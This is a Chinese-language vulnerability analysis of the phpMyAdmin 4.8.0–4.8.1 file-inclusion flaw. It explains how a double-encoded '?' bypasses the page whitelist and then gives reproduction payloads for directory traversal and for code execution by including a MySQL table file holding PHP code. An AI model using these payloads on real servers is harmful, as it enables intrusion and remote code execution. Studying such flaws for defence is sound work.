








# 漏洞影响范围

phpMyAdmin 4.8.0和4.8.1

# 环境搭建

phpMyAdmin-4.8.1 [下载](https://www.oschina.net/action/GoToLink?url=https%3A%2F%2Ffiles.phpmyadmin.net%2FphpMyAdmin%2F4.8.1%2FphpMyAdmin-4.8.1-all-languages.zip)

解压到WWW目录



登陆账号root,密码root

# 漏洞分析

index.php55-63行



如果满足以下5个条件,即可执行包含文件代码`include $_REQUEST['target']`

```
1. $_REQUEST['target']不为空
2. $_REQUEST['target']是字符串
3. $_REQUEST['target']的开头不能是index
4. $_REQUEST['target']不在$target_blacklist中
5. Core::checkPageValidity($_REQUEST['target']为真
```



跟进checkPageValidity()函数,定位到了Core.php443行

```
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

考虑到这个函数的返回值需要为真

从最上面开始看起,$whitelist = []符合第一个if循环的条件

会执行`$whitelist = self::$goto_whitelist`这串代码

跟进一下

```
public static $goto_whitelist = array(
        'db_datadict.php',
        'db_sql.php',
        'db_events.php',
        'db_export.php',
        'db_importdocsql.php',
        'db_multi_table_query.php',
        'db_structure.php',
        'db_import.php',
        'db_operations.php',
        'db_search.php',
        'db_routines.php',
        'export.php',
        'import.php',
        'index.php',
        'pdf_pages.php',
        'pdf_schema.php',
        'server_binlog.php',
        'server_collations.php',
        'server_databases.php',
        'server_engines.php',
        'server_export.php',
        'server_import.php',
        'server_privileges.php',
        'server_sql.php',
        'server_status.php',
        'server_status_advisor.php',
        'server_status_monitor.php',
        'server_status_queries.php',
        'server_status_variables.php',
        'server_variables.php',
        'sql.php',
        'tbl_addfield.php',
        'tbl_change.php',
        'tbl_create.php',
        'tbl_import.php',
        'tbl_indexes.php',
        'tbl_sql.php',
        'tbl_export.php',
        'tbl_operations.php',
        'tbl_structure.php',
        'tbl_relation.php',
        'tbl_replace.php',
        'tbl_row_action.php',
        'tbl_select.php',
        'tbl_zoom_select.php',
        'transformation_overview.php',
        'transformation_wrapper.php',
        'user_password.php',
    );
```

这是定义的一个静态数组,也是一个白名单

继续往下看



第二个if循环如果不存在$page或者不是字符串的话就会返回false

第三个if要求$page必须要在白名单内,但是考虑到`$page`可能会带有参数,所以有了后面的判断

继续往下看



`mb_strpos`：是一个定位函数，获取指定的字符在一个字符串中首次出现的位置，这里也就是$page中问号第一次出现的位置

`mb_substr`：截取指定字符串中某一段，这里从0开始截取，也就是从最开始

`$_page`的值是$page和?之间的部分

我们可以利用这urldecode来绕过白名单的检测

`target=db_datadict.php%253f`服务器会自动进行一次url解码`target=db_datadict.php%3f`

这里的urldecode会把他解码为`target=db_datadict.php?`通过截取的函数来实现对白名单的绕过

但是此时在index.php的还是`target=db_datadict.php%3f`,然后再对其进行文件包含

## 漏洞复现

目录穿越读取文件

```
?target=db_datadict.php%253f../../../phpinfo.php
```



### 任意代码执行：

- 查询数据库路径：

  `show global variables like "%datadir%";`

  

- 向数据库写入代码：

  ```sql
  CREATE DATABASE rce;
  use rce;
  CREATE TABLE rce(code varchar(100));
  INSERT INTO rce(code) VALUES("<?php phpinfo(); ?>");
  ```

  

- 包含该数据库文件：

  ```
  ?target=db_datadict.php%253f/../../../../../../../../../phpstudy_pro/Extensions/MySQL5.7.26/data/rce/rce.MYD
  ```




参考链接

https://xz.aliyun.com/t/6592
